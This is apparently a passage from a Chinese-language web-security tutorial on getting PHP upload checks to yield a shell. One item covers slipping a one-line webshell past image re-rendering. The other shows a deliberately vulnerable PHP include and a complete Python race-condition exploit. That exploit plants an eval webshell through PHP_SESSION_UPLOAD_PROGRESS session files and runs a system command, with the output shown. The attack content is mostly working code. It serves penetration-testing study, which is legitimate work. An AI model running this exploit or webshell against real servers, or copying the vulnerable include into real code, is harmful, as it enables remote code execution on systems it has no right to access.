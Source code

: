 12.  图片二次渲染绕过，在php代码中，如果使用以下函数对图片进行二次渲染

```
imagecreatefromjpeg
imagecreatefrompng
imagecreatefromgif 
```

则需要通过特殊图片进行绕过
gif文件只要上传后，对比没有变动的位置，把此位置换成一句话即可
jpeg和png需要特殊的图片，可使用[这些图片](https://download.csdn.net/download/qq_31343581/57252541)。
13\. session上传，实现任意文件包含getshell

```
<?php
    $b=$_GET['file'];
    include "$b";
?> 
```

绕过

```
 ​
import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://127.0.0.1:5555/test56.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()
​
        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set() 
```

效果
![](img/63b6729be26a123ea174da7939bd5177.png)
其中`laptop-bhbjtmj6\xue` 就为 `system('whoami');`的结果，[参考](https://www.freebuf.com/vuls/202819.html)
